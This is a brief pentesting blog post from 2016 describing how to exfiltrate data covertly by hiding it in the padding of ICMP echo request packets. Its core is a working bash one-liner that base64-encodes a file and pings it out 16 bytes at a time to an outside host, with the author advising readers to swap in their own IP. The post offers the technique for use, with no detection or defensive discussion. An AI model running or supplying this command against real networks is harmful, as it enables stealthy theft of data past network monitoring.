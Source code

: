 Title: Data Exfiltration with Ping
Date: 2016-07-01 10:21
Category: Pentesting
Tags: ping, stealth, exfil, data
Slug: ping-exfil
Authors: wumb0

I was looking around Twitter the other day and someone had posted something similar to this. I don't remember who you are, but this is a neat trick so I wanted to share it. How to exfiltrate data from a network using the padding of ICMP echo request packets. 

```bash
base64 important-data.txt | xxd -ps -c 16 | while read i; do ping -c1 -s32 -p $i 8.8.8.8; done
```

This will base64 encode important-data.txt and then stuff the encoded data 16 bytes at a time into ping. 

Obviously you should change the IP before sending :)

That's all for now.
